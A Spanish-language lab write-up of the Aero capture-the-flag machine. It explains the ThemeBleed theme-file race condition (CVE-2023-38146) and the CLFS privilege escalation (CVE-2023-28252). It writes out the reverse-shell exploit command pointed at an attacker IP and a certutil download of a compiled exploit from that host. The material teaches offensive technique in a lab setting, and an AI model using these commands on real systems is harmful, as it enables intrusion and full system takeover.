

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Busca servicios dentro de la web, no todos los botones tienen que estar deshabilitados
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Extensión de archivo rara o no tan común ? puede que google tenga las respuestas para buscar vulnerabilidades en esto
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Siempre hay archivos que los usuarios dejan en sus carpetas personales, esos documentos siempre suelen ser sospechosos
</label>

## Writeupp
---

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
nmap -sS -Pn -n --min-rate 5000 -p- 10.129.229.128 -sV
```



Encontramos solamente el puerto 80 abierto, procederemos a revisar qué contenido nos ofrece dicho puerto en el navegador (esto debido a que dispone del servicio HTTP mostrado en nmap)



La página en sí parece informativa salvo por una pequeña sección encontrada más abajo



Disponemos de un apartado para cargar archivos

Al darle la opción de *Browse* vemos que dentro de las extensiones que se nos recomienda son las siguientes

- *.theme
- *.themepack



básicamente lo podemos ver tambien si inspeccionamos el elemento de carga de archivos

```html
<input class="form-control" type="file" id="fileInput" accept=".theme, .themepack" name="files" required="">
```



Ahora que sabemos que tipo de archivos se suben buscaremos subir un archivo de prueba `test.themepack` y ver cómo reacciona la aplicación



Nos dice practicamente que una vez revisado el archivo (básicamente algo o alguien interactuará con el archivo subido), además que luego de esa revisión se subirá dentro de la web, la pregunta es en dónde ?

Bucaremos subdirectorios de la web para identificar posibles rutas en donde podría estar subido dicho archivo (cabe la posibilidad tb que se tendría que cumplir otros requisitos para que se suba, sin embargo, es algo que igual hay que intentar)

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.229.128/FUZZ -t 200
```



Vemos que hay una ruta llamada **/upload** la cual arroja un estado de 405 (method not allowed), qué tal si buscamos el archivo `test.themepack` en esa ruta ?



Nada :c, pero si nos arrojó un 405 usando el método GET entonces veremos que responde por un método POST

```bash
❯ curl -X POST http://10.129.229.128/upload
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Length Required</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Length Required</h2>
<hr><p>HTTP Error 411. The request must be chunked or have a content length.</p>
</BODY></HTML>
```

Nos dice que debe tener un contenido, entonces es muy probable que sea esa la ruta, pero nuestro archivo tal vez se muestra de otra forma

> [!note]
> Una forma más rápida de saber esto es a través de las devtools de firefox o google usando la pestaña *Networks*
> 

Entonces encontramos la ruta de carga, y ahora ?

Nada que una busqueda con simplemente ".themepack exploit github" en google no pueda resolver



Básicamente intentamos realizar esta búsqueda debido a que tenemos un posible vector de entrada a través de esos archivos con extensión *.themepack*

## Acceso Inicial

La búsqueda nos lleva a conocer el **CVE-2023-38146**, esta es una vuln que fué catalogada en su momento como zero day, dispone de una severidad 8.8 (Alta) según CVSS 3.1 y su impacto es la ejecución remota de código en sistemas windows, específicamente las que se muestran a continuación:



Vamos a ver que pasa con esta vuln...

https://exploits.forsale/themebleed/

Primero, esta vuln es por los archivos *.theme* y *.themepack*, estos archivos son archivos de configuración del tema de Windows, específicamente en el archivo con extensión *.theme* se encuentra configuraciones como el fondo de pantalla, intenta realizar el siguiente comando en tu powershell para que veas a lo que me refiero.

```powershell
Get-ChildItem C:\Windows\Resources\Themes -Filter *.theme
```



Cada archivo de estos, si los lees, verás configuraciones del tema de windows.

> [!note]
> Los *.themepack* son archivos que contienen en su interior un comprimido del tema, por ejemplo, el theme puede indicar la imagen, y el *.themepack* contendría el *.theme* y la imagen dentro.
> Los archivos *.theme* tambien pueden ir solos, pero al hacerlo salta un anuncio, cosa que no pasa en los *.themepack*, por ello al momento de la explotación se usa este último y así evitar cualquier tipo de aviso innecesario.

Ahora tendremos que saber lo que es un archivo *.msstyles*, ese tipo de archivos es un binario (no se puede leer con un cat -.-), y estos contienen por ejemplo recursos que el tema los utiliza para "verse mejor", por ejemplo, te puede indicar margenes, padding, etc. Digamos que es un añadido al tema en el cual se utiliza para que un tema se pueda ver "bien".

Estos archivos lo podemos encontrar en nuestro sistema por medio del siguiente comando:

```powershell
Get-ChildItem C:\Windows\Resources\Themes -Filter *.msstyles -Recurse
```



Entonces con todo esto pasemos a la vuln, en este caso la vuln se origina principalmente por las cosas que se ejecutan dentro de la carga de un tema, la función se llama `LoadThemeLibrary`, esta función (además de hacer varias cosas), tiene un particularidad por verificar la versión de los temas, dicha verificación tiene una función adicional en caso la versión del tema sea 999 exactamente, lo que conlleva a ir a otro flujo el cual es vulnerable a un **race condition**, y adivinen dónde se coloca la versión del tema ? obviamente (no lo és) en el archivo con extensión *.msstyles*

Veamoslo en un gráfico

Primero lo que se realiza para cargar un archivo



Específicamente dentro de la función `LoadThemeLibrary` se encuentra la validación de la versión, de tener esta un valor de 999 te llevará a otra función llamada `ReviseVersionIfNecessary`, esta función tiene el siguiente flujo:




Y he aquí el tema, hasta el paso 4 se verifica que el dll es legítimo con firma y todo, eso ok, pero lo cierra luego de la verificación y luego lo vuelve a llamar para cargarlo, en vez de simplemente cargarlo y ya.

El objetivo es cargar un dll malicioso en la función `VerifyThemeVersion` (mejor llamado como paso 5) y esto lo logramos ya que todo lo realiza bajo la misma carpeta donde se está ejecutando la carga del tema, algo extra de esto es que el archivo *.theme* permite mapear donde está cargada el archivo *.msstyles* lo que podría conllevar a que el archivo *.msstyles* tambien sea controlado por nosotros :)

Claro, ahora tenemos el objetivo, básicamente es cargar un dll malicioso entre el paso 4 y 5, efectivamente será una shell reversa, pero cómo lo haremos (mejor dicho, cómo lo hará el script que encontramos en primer lugar) ?

1. Crear un dll malicioso para cargar.
2. Crear un .theme que indique la carga de un archivo *.msstyles* remoto (claramente nuestro servidor SMB)
3. Abrir un servicio SMB el cual contenga nuestro archivo malicioso *.msstyles* (este archivo debe de tener la versión = 999)
4. Una vez cerrado el archivo dll legítimo (paso 4) cargar el dll malicioso (paso 5) haciendose pasar por el dll legítimo

Acá hay algo que aclarar, el dll para realizar la verificación lo hace el sistema, nosotros no podemos hacer mucho con esto, cuando el sistema cierre ese dll va a llamar otra vez al dll con el mismo nombre, en ese caso podemos simplemente cambiarlo muy rápido o hacerle pensar al sistema que está llamando a este archivo pero por debajo le enviamos otro (esto último es lo que hace el script).

Ejecutemos el exploit...

Primero ejecutaremos el siguiente comando:

```sh
python3 themebleed.py -r 10.10.15.231 -p 4444
```



Esto creará 2 archivos



Cargamos el archivo con extensión *.themepack* a la web



Luego de unos momentos veremos que se solicita el dll malicioso al final



Con esto obtenemos reverse shell :)



## Escalamiento de privilegios

Una vez dentro del sistema revisaremos carpetas de nuestro usuario a ver si encontramos algo interesante

Dentro de la carpeta de *Documents* del usuario *sam.emerson* encontramos un pdf con un CVE



El CVE parece hacer alusión a un "local privilege escalation", coincidencias no ?

El CVE-2023-28252 hace alución a otra vuln zero day en su momento, permite el escalamiento de privilegios local y está catalogado con severidad 7.8 (Alta) según CVSS

Básicamente esta vulnerabilidad trata de hacer un BoF (Buffer Overflow) al driver `CLFS.sys` y claro, esto te permite al final de cuentas ejecutar el código que desees, para más detalle se tiene el siguiente link https://github.com/fortra/CVE-2023-28252

Ahora, hay una versión compilada de este exploit el cual se encuentra dentro del repositorio https://github.com/bkstephen/Compiled-PoC-Binary-For-CVE-2023-28252

Nos pasamos el ejecutable a la máquina objetivo

```powershell
PS C:\Users\sam.emerson\Documents> certutil.exe -f -split -urlcache http://10.10.15.231:8000/clfs_eop.exe
certutil.exe -f -split -urlcache http://10.10.15.231:8000/clfs_eop.exe
****  Online  ****
  000000  ...
  055c00
CertUtil: -URLCache command completed successfully.
```

Y luego lo ejecutamos con el siguiente comando:

```powershell
.\clfs_eop.exe cmd.exe
```


Es así como obtenemos el privilegio más alto dentro de la máquina Aero :)